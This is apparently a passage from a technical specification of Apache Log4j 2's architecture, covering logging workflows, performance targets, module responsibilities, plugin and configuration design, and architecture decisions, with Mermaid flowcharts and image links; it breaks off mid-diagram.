

## 4.4 REQUIRED DIAGRAMS

### 4.4.1 High-Level System Workflow



### 4.4.2 Routing Appender Decision Tree



### 4.4.3 Garbage-Free Logging Flow

```mermaid
flowchart LR
    subgraph "Object Reuse"
        A[Thread Local Pool] --> B[MutableLogEvent]
        B --> C[Reusable StringBuilder]
        C --> D[Pooled Buffers]
        D --> E[Event Processing]
    end
    
    subgraph "Allocation-Free Path"
        E --> F{Async Enabled?}
        F -->|Yes| G[Ring Buffer Slot]
        F -->|No| H[Direct Processing]
        G --> I[Copy Event Data]
        I --> J[Background Thread]
        J --> K[Process Without Allocation]
    end
    
    subgraph "Layout Processing"
        H --> L[Layout.encode]
        K --> L
        L --> M[Reuse Text Buffer]
        M --> N[Pattern Conversion]
        N --> O[Write to Buffer]
        O --> P[Buffer to Output]
    end
    
    subgraph "Cleanup"
        P --> Q[Return to Pool]
        Q --> R[Clear References]
        R --> S[Reset State]
        S --> T[Ready for Reuse]
        T --> A
    end
```

### 4.4.4 Configuration Reload Sequence



### 4.4.5 Multi-Threaded Logging Coordination



## 4.5 TIMING CONSTRAINTS AND SLA CONSIDERATIONS

### 4.5.1 Performance Targets

**Synchronous Logging:**
- Event processing: < 100 nanoseconds per event in steady state
- Logger lookup: < 10 nanoseconds after initial cache population
- Configuration reload: < 100 milliseconds for standard configurations

**Asynchronous Logging:**
- Queue enqueue: < 50 nanoseconds per event
- Background processing: > 1 million events per second sustained throughput
- Queue full handling: < 10 milliseconds timeout for producer blocking

**System Operations:**
- Startup time: < 2 seconds for standard configurations
- Shutdown time: < 30 seconds with graceful queue draining
- Memory usage: < 1MB baseline overhead per LoggerContext

### 4.5.2 Recovery Time Objectives

**Error Recovery:**
- Appender restart: < 5 seconds for network appenders
- Configuration rollback: < 1 second for invalid configurations
- Failover activation: < 100 milliseconds for appender failures

**Operational Recovery:**
- File system recovery: < 10 seconds after disk space available
- Network recovery: < 30 seconds with exponential backoff
- Database recovery: < 60 seconds with connection pool refresh

#### References

**Files Examined:**
- `log4j-core/src/main/java/org/apache/logging/log4j/core/LoggerContext.java` - Central context management and lifecycle
- `log4j-core/src/main/java/org/apache/logging/log4j/core/async/AsyncLogger.java` - Asynchronous logging implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/config/ConfigurationFactory.java` - Configuration discovery and loading
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/routing/RoutingAppender.java` - Dynamic routing logic
- `log4j-core/src/main/java/org/apache/logging/log4j/core/config/AppenderControl.java` - Appender lifecycle management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/impl/Log4jLogEvent.java` - Event lifecycle and processing
- `log4j-core/src/main/java/org/apache/logging/log4j/core/async/RingBufferLogEvent.java` - Async event processing
- `log4j-core/src/main/java/org/apache/logging/log4j/core/layout/PatternLayout.java` - Layout formatting implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/filter/AbstractFilter.java` - Filtering framework
- `log4j-core/src/main/java/org/apache/logging/log4j/core/config/plugins/PluginManager.java` - Plugin discovery and management

**Folders Explored:**
- `log4j-core/src/main/java/org/apache/logging/log4j/core/` - Core implementation components
- `log4j-core/src/main/java/org/apache/logging/log4j/core/impl/` - Implementation details
- `log4j-core/src/main/java/org/apache/logging/log4j/core/async/` - Asynchronous components
- `log4j-core/src/main/java/org/apache/logging/log4j/core/config/` - Configuration system
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/` - Appender implementations
- `log4j-core/src/main/java/org/apache/logging/log4j/core/layout/` - Layout implementations
- `log4j-core/src/main/java/org/apache/logging/log4j/core/filter/` - Filter implementations
- `log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/` - Lookup implementations

# 5. SYSTEM ARCHITECTURE

## 5.1 HIGH-LEVEL ARCHITECTURE

### 5.1.1 System Overview

Apache Log4j 2 employs a sophisticated layered architecture designed for high performance, extensibility, and reliability. The framework fundamentally addresses the architectural limitations of previous logging solutions through a plugin-based, modular design that separates concerns while maintaining exceptional performance characteristics.

#### 5.1.1.1 Overall Architecture Style and Rationale

The system implements a **layered architecture** with **plugin-based extensibility**, combining several key architectural patterns:

- **Facade Pattern**: Complete API/implementation separation through log4j-api facade
- **Plugin Architecture**: Annotation-driven component discovery and registration
- **Factory Pattern**: Centralized component creation through plugin factories
- **Observer Pattern**: Event-driven configuration reloading and lifecycle management
- **Strategy Pattern**: Pluggable algorithms for formatting, filtering, and output strategies

This architectural approach enables the framework to achieve sub-millisecond latency while processing over 1 million events per second, supporting zero-downtime configuration changes and seamless integration with diverse enterprise environments.

#### 5.1.1.2 Key Architectural Principles

**Separation of Concerns**: The log4j-api module provides a stable public interface completely isolated from implementation details in log4j-core, enabling implementation changes without affecting client applications.

**Extensibility Through Composition**: The plugin architecture allows new components to be added without modifying core code, supporting custom appenders, layouts, filters, and lookups through simple annotation-based registration.

**Performance-First Design**: Asynchronous processing using LMAX Disruptor technology, garbage-free logging modes, and lazy evaluation patterns ensure minimal impact on application performance.

**Configuration Flexibility**: Multi-format configuration support (XML, JSON, YAML, Properties) with hot-reload capabilities and comprehensive property substitution enables dynamic system behavior modification.

#### 5.1.1.3 System Boundaries and Major Interfaces

**Primary System Boundary**: The log4j-api defines the external system boundary, providing LogManager, Logger, and Message interfaces that applications interact with directly.

**Plugin System Boundary**: The plugin architecture creates extensibility points at multiple levels - appenders for output destinations, layouts for formatting, filters for event processing, and lookups for configuration enhancement.

**Integration Boundaries**: Specialized modules handle integration with external systems including web containers (log4j-web), Spring Framework (log4j-spring-boot), message queues (log4j-kafka), and databases (log4j-mongodb4, log4j-cassandra).

### 5.1.2 Core Components Table

| Component Name | Primary Responsibility | Key Dependencies | Integration Points | Critical Considerations |
|---|---|---|---|---|
| **log4j-api** | Public API facade and abstraction layer | Java 8+ runtime | LogManager.getContext(), SPI providers | Binary compatibility, thread safety |
| **log4j-core** | Core logging implementation engine | log4j-api, plugin framework | Configuration factories, appender lifecycle | Plugin discovery, performance optimization |
| **Plugin Framework** | Component discovery and instantiation | Annotation processing, reflection | @Plugin annotations, factory methods | Classloader isolation, metadata caching |
| **Configuration System** | Multi-format configuration parsing | Jackson libraries, file watchers | ConfigurationFactory SPI, property substitution | Hot-reload capabilities, circular dependencies |

### 5.1.3 Data Flow Description

#### 5.1.3.1 Primary Data Flows

**Synchronous Logging Flow**: Application threads invoke Logger methods, which immediately process events through filter chains, format via layouts, and write to appenders within the same thread context. This approach provides predictable behavior and simplified debugging at the cost of potential performance impact.

**Asynchronous Logging Flow**: Log events are queued in a lock-free ring buffer using LMAX Disruptor technology, enabling application threads to return immediately while background threads process events in batches. This pattern achieves high throughput with minimal latency impact on application performance.

**Configuration Reload Flow**: File watchers detect configuration changes and trigger reloading through the ConfigurationFactory chain. New configurations are built in parallel, validated, and atomically swapped with existing configurations to ensure zero event loss during transitions.

#### 5.1.3.2 Integration Patterns and Protocols

**Plugin Discovery Protocol**: Compile-time annotation processing generates plugin metadata files (Log4j2Plugins.dat) that are loaded at runtime for efficient component discovery across different classloader environments.

**Appender Communication Pattern**: Appenders receive pre-formatted events through the Layout system, enabling consistent formatting regardless of output destination while supporting destination-specific optimizations.

**Error Handling Pattern**: Failed operations trigger configurable error handlers that can retry with backoff policies, route to alternative appenders, or gracefully degrade functionality without impacting the overall system.

#### 5.1.3.3 Data Transformation Points

**Message Formatting**: Raw log messages undergo parameter substitution, lambda evaluation, and format string processing before layout transformation.

**Layout Processing**: Formatted messages are transformed into destination-specific formats (JSON, XML, CSV, pattern-based) through pluggable layout implementations.

**Filter Processing**: Events pass through configurable filter chains that can modify, enrich, or discard events based on level, content, time, or custom criteria.

#### 5.1.3.4 Key Data Stores and Caches

**Plugin Registry Cache**: Compiled plugin metadata is cached in memory for rapid component instantiation during configuration processing.

**Configuration Context Cache**: Active configurations are cached per ClassLoader to ensure proper isolation in application server environments.

**Reusable Object Pools**: Garbage-free mode utilizes object pools for LogEvent instances, StringBuilder objects, and formatting buffers to minimize allocation overhead.

### 5.1.4 External Integration Points

| System Name | Integration Type | Data Exchange Pattern | Protocol/Format | SLA Requirements |
|---|---|---|---|---|
| **Apache Kafka** | Message Queue | Asynchronous publish | Binary protocol, configurable serialization | High availability, at-least-once delivery |
| **MongoDB** | Document Database | Batch insert operations | BSON over TCP, connection pooling | Eventual consistency, auto-reconnection |
| **Spring Boot** | Application Framework | Auto-configuration integration | Java SPI, property binding | Zero-configuration startup, profile awareness |
| **Servlet Containers** | Web Application Server | Lifecycle management | ServletContainerInitializer, context listeners | Clean shutdown, resource cleanup |

## 5.2 COMPONENT DETAILS

### 5.2.1 log4j-api Module

#### 5.2.1.1 Purpose and Responsibilities

The log4j-api module serves as the stable public interface for all logging operations, providing complete abstraction from implementation details. It defines the core logging abstractions including LogManager, Logger, Level, Marker, Message, and ThreadContext that applications interact with directly.

#### 5.2.1.2 Technologies and Frameworks

- **Java 8+ Language Features**: Lambda expressions, method references, and stream API
- **SPI Framework**: Service Provider Interface for pluggable LoggerContext implementations
- **Annotation Processing**: Compile-time processing for performance-critical code paths
- **Multi-Release JAR**: Java 9+ enhancements through multi-release JAR packaging

#### 5.2.1.3 Key Interfaces and APIs

**LogManager**: Central entry point providing `getLogger()` methods and context management
**Logger**: Primary logging interface with level-based methods and lambda support
**Message**: Abstraction for log messages supporting parameterized and formatted messages
**ThreadContext**: Thread-local context data management for correlation tracking

#### 5.2.1.4 Data Persistence Requirements

The API module maintains no persistent state, operating as a pure facade over underlying implementations. All context data is held in memory with optional persistence delegated to core implementation.

#### 5.2.1.5 Scaling Considerations

Thread-safe design enables unlimited concurrent access from application threads. The facade pattern ensures that scaling characteristics are determined by the underlying implementation rather than the API layer.

### 5.2.2 log4j-core Module

#### 5.2.2.1 Purpose and Responsibilities

The log4j-core module provides the complete logging implementation including configuration parsing, plugin management, event processing, and output handling. It implements the entire logging pipeline from event creation through final output.

#### 5.2.2.2 Technologies and Frameworks

- **LMAX Disruptor**: Lock-free ring buffer for asynchronous processing
- **Jackson Ecosystem**: JSON, XML, and YAML configuration parsing
- **Java NIO**: High-performance file and network I/O operations
- **OSGI Framework**: Bundle/fragment support for modular deployments

#### 5.2.2.3 Key Interfaces and APIs

**LoggerContext**: Main configuration container and logger factory
**Configuration**: Central configuration representation with component registry
**Appender**: Output destination interface with lifecycle management
**Layout**: Event formatting interface for various output formats

#### 5.2.2.4 Data Persistence Requirements

Configuration data is loaded from files, URLs, or classpath resources and cached in memory. Plugin metadata is persisted in JAR files and loaded during startup for efficient component discovery.

#### 5.2.2.5 Scaling Considerations

Horizontal scaling through multiple LoggerContext instances with separate configurations. Vertical scaling via configurable thread pools, buffer sizes, and batching strategies for high-throughput scenarios.

### 5.2.3 Plugin Framework

#### 5.2.3.1 Purpose and Responsibilities

The plugin framework enables extensible architecture through annotation-based component discovery, registration, and instantiation. It provides the foundation for all configurable components including appenders, layouts, filters, and lookups.

#### 5.2.3.2 Technologies and Frameworks

- **Annotation Processing**: Compile-time metadata extraction and validation
- **Reflection API**: Runtime component instantiation and dependency injection
- **ClassLoader Framework**: Multi-classloader plugin discovery and isolation
- **Caching Framework**: Plugin metadata caching for performance optimization

#### 5.2.3.3 Key Interfaces and APIs

**@Plugin**: Core plugin annotation defining component metadata
**PluginFactory**: Factory methods for component creation
**PluginRegistry**: Central registry for plugin discovery and instantiation
**PluginBuilder**: Fluent API for programmatic plugin configuration

#### 5.2.3.4 Data Persistence Requirements

Plugin metadata is persisted in Log4j2Plugins.dat files within JAR archives. Runtime plugin instances are cached in memory for efficient reuse during configuration processing.

#### 5.2.3.5 Scaling Considerations

Plugin discovery scales with classpath size but is cached for subsequent use. Component instantiation scales with configuration complexity but leverages caching for repeated plugin creation.

### 5.2.4 Configuration System

#### 5.2.4.1 Purpose and Responsibilities

The configuration system handles multi-format configuration parsing, property substitution, component instantiation, and dynamic reconfiguration. It provides the bridge between declarative configuration and runtime component graphs.

#### 5.2.4.2 Technologies and Frameworks

- **Jackson Libraries**: JSON, XML, and YAML parsing with streaming support
- **YAML Parser**: SnakeYAML for YAML configuration format support
- **File Watching**: NIO.2 WatchService for configuration change detection
- **Property Substitution**: Advanced variable replacement with lookup chaining

#### 5.2.4.3 Key Interfaces and APIs

**ConfigurationFactory**: SPI for configuration format support
**ConfigurationSource**: Abstraction for configuration input sources
**StrSubstitutor**: Advanced property substitution with lookup chaining
**Reconfigurable**: Interface for components supporting dynamic reconfiguration

#### 5.2.4.4 Data Persistence Requirements

Configuration files are loaded from filesystem, classpath, or network locations. Parsed configurations are cached in memory with file watchers tracking changes for automatic reloading.

#### 5.2.4.5 Scaling Considerations

Configuration parsing scales with file size and complexity. Hot-reload capabilities enable scaling configuration changes without service interruption across distributed deployments.

### 5.2.5 Component Interaction Diagrams



### 5.2.6 State Transition Diagrams



### 5.2.7 Sequence Diagrams for Key Flows



## 5.3 TECHNICAL DECISIONS

### 5.3.1 Architecture Style Decisions and Tradeoffs

#### 5.3.1.1 Layered Architecture with Plugin Extensions

**Decision**: Implement a layered architecture with API facade and plugin-based extensibility
**Rationale**: Provides stability, extensibility, and performance optimization opportunities
**Tradeoffs**: Increased complexity in exchange for flexibility and backward compatibility

| Aspect | Benefit | Tradeoff |
|---|---|---|
| **API Stability** | Binary compatibility across versions | Additional abstraction layer overhead |
| **Extensibility** | Easy addition of new components | Plugin discovery and instantiation complexity |
| **Performance** | Specialized implementations per use case | Memory overhead from plugin metadata |

#### 5.3.1.2 Asynchronous Processing Strategy

**Decision**: Implement LMAX Disruptor-based asynchronous logging with configurable fallback
**Rationale**: Achieve high throughput with minimal latency impact on application threads
**Tradeoffs**: Increased complexity and memory usage for exceptional performance characteristics

| Aspect | Benefit | Tradeoff |
|---|---|---|
| **Throughput** | >1M events/second processing capability | Additional memory for ring buffers |
| **Latency** | Sub-millisecond logging operation impact | Potential event loss during overflow |
| **Scalability** | Lock-free operations scale with core count | Complex configuration and tuning |

### 5.3.2 Communication Pattern Choices

#### 5.3.2.1 Event-Driven Configuration Management

**Decision**: Implement event-driven configuration reloading with atomic swapping
**Rationale**: Enable zero-downtime configuration changes while ensuring consistency
**Implementation**: File watchers trigger configuration rebuilding with atomic context swapping

#### 5.3.2.2 Plugin Discovery and Registration

**Decision**: Use annotation processing for compile-time metadata generation
**Rationale**: Optimize runtime performance while maintaining classpath scanning capabilities
**Implementation**: @Plugin annotations generate cached metadata files for efficient discovery

### 5.3.3 Data Storage Solution Rationale

#### 5.3.3.1 Multi-Format Configuration Support

**Decision**: Support XML, JSON, YAML, and Properties formats with unified processing
**Rationale**: Accommodate diverse deployment environments and developer preferences
**Implementation**: Pluggable ConfigurationFactory pattern with format-specific parsers

#### 5.3.3.2 Plugin Metadata Persistence

**Decision**: Store plugin metadata in JAR-embedded cache files rather than runtime scanning
**Rationale**: Optimize startup performance and reduce classpath scanning overhead
**Implementation**: Compile-time annotation processing generates Log4j2Plugins.dat files

### 5.3.4 Caching Strategy Justification

#### 5.3.4.1 Configuration Context Caching

**Decision**: Cache Configuration instances per ClassLoader with automatic invalidation
**Rationale**: Optimize repeated configuration access while supporting application server isolation
**Implementation**: ConcurrentHashMap with ClassLoader keys and automatic cleanup

#### 5.3.4.2 Plugin Registry Caching

**Decision**: Cache plugin metadata and instances with lazy instantiation
**Rationale**: Balance memory usage with instantiation performance for frequently used components
**Implementation**: Two-level cache with metadata registry and instance pools

### 5.3.5 Security Mechanism Selection

#### 5.3.5.1 Configuration Property Sanitization

**Decision**: Implement property substitution with security controls and lookup restrictions
**Rationale**: Prevent configuration injection attacks while maintaining flexibility
**Implementation**: Configurable lookup providers with security manager integration

#### 5.3.5.2 Appender Security Controls

**Decision**: Implement SSL/TLS support for network appenders with certificate validation
**Rationale**: Secure log transmission in distributed environments
**Implementation**: SSLContext configuration with trust store and cipher suite controls

### 5.3.6 Decision Tree Diagrams

```mermaid
flowchart TD
    A[Logging Request] --> B{Logger Enabled?}
    B -->|No| C[Return Immediately]
    B -->|Yes| D[Create LogEvent]
    D --> E{Async Configured?}
    E -->|No| F[Synchronous Processing]
    E -->|Yes| G{Queue Available?}
    G -->|Yes| H[Enqueue Event]
    G -->|No| I{Queue Full Policy}
    I -->|BLOCK| J[Wait for Space]
    I -->|DISCARD| K[Drop Event]
    I -->|SYNCHRONOUS| F
    J --> H
    H --> L[Background Processing]
    F --> M[Direct Processing]
    L --> M
    M --> N[Apply Filters]
    N --> O{Filter Result}
    O -->|DENY| P[Discard Event]
    O -->|ACCEPT| Q[Format & Output]
    Q --> R[Complete]
```

### 5.3.7 Architecture Decision Records (ADRs)

```mermaid
graph LR
    subgraph "ADR-001: API Separation"
        A1[Problem: Implementation Coupling]
        A2[Decision: Facade Pattern]
        A3[Consequences: Binary Compatibility]
        A1 --> A2 --> A3
    end
    
